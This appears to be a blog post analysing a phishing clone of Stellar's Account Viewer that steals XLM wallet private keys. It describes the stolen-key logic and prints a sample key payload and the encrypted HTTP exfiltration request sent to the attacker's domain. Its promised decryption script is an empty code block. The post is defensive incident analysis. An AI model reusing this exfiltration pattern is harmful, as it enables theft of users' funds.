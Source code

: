 ```yaml
---
layout: post
title: XLM Account Viewer phishing
---
```


The following address: **hxxp://accountviewer.stellar.org.ge** is a malicious clone attacking stellar users.

It all starts with a phishing email:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/phshing.jpg)
{: refdef}

Quickly checking the mail headers reveals suspicious details:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/headers.png)
{: refdef}


The send is **no-reply@annfinance.co.uk**, which seems to be a legitimate company with records dating from at least 2016. This company however does not seems to have any link with Stellar whatsoever. It is plausible that their mail accounts have been compromised in order to perform phishing attacks.

The mail's body contains a link to Stellar's account viewer page, which looks exactly like the original, as it was probably forked using [AccountViewer v2](https://github.com/stellar/account-viewer-v2), except that the domain is stellar.org.ge instead of stellar.org:

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/clone.png) | 
|:--:| 
| *Clone Website* |
{: refdef}

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/legit.png) | 
|:--:| 
| *Original Website* |
{: refdef}

The TLS certificate is also not issued by the same CA, which is usually very fishy, especially if it comes from Let's Encrypt, as they are free, and easy to deploy:

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/clonecert.png) | 
|:--:| 
| *Let's Encrypt clone certificate* |
{: refdef}

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/legitcert.png) | 
|:--:| 
| *Original Sectigo certificate* |
{: refdef}

Even the domain's DNS records look nothing like the original Stellar's site, which is protected by Cloudflare:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/dns.png)
{: refdef}

This is a pretty good indication that the two domains are not controlled by the same entity.

The page offers to create a wallet for sending XLM. After reading the modified Javascript code, we found out what it was doing:

* Wait until the wallet reaches 15k XLM
* Create a new private/public key pair using stellar sdk
* Trigger a wire transfer to the newly created wallet
* Save a transaction's history containing the **wallet's private key**

By sending the private key to **/api/gdata**, the rogue site ensures they keep their hands on all the accounts where the XLM has been transfered.

The source file responsible for the account creation can be found here:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/sources.png)
{: refdef}

The algorithm generates a JSON payload of the following form:

```json
{"ffatale":"BLOBBLOB 97023.3555 => SCT62N4GYPBBTJCMGSHGEUTJNCXXCULPSYFFYAS6D5H62HD7SQF6RFZS"}
```

Then, the javascript source encrypts the json array using AES and a harcoded passphrase:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/js.png)
{: refdef}

The request, as received by **/api/gdata** should look something like this:

```http
POST /api/gdata HTTP/1.1
Host: "accountviewer.stellar.org.ge
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.60 Safari/537.17
Accept-Encoding: gzip, deflate, br
Accept: application/json
Connection: keep-alive
Content-Type: application/json
Content-Length: 152

U2FsdGVkX1+uqjVGvPpGo9olPeF8kF2E24710Lrxv29L97NEwnBgjs4PTZYp/DZCxTwejlDV0ynYF+Q8ZAVaAediKyfVztZJbM/DBE+HvoV6Su0SEQJCBGNBTaVSfFx9FmqN+YxZv9eZkpLbR8H6kA==
```

## If you have NOT closed your browser, or rebooted your computer since the transaction was done

As the request containing the private key is sent from your browser, it **might** still reside somewhere in the process's memory. Using GDB on Mac or Linux, and ProcDump on Windows, it is possible to dump your browser's memory. Once that is done, look for specific strings that could match the request, like "/api/gdata", or "accountviewer.stellar.org.ge".

If you find the request, containing the base64 encrypted data blob, **DO NOT** under any circumstance, communicate it to anyone (even us), in order to decrypt it. Instead, decrypt it with the following python program:

```python
```

## If you have closed your browser, rebooted your computer, or used a phone:

It is very likely that it is very complicated, or impossible, to retrieve traces of the malicious destination wallet. In case the phone was rooted, there might be a chance by dumping the browser's memory using [LiME](https://github.com/504ensicsLabs/LiME).
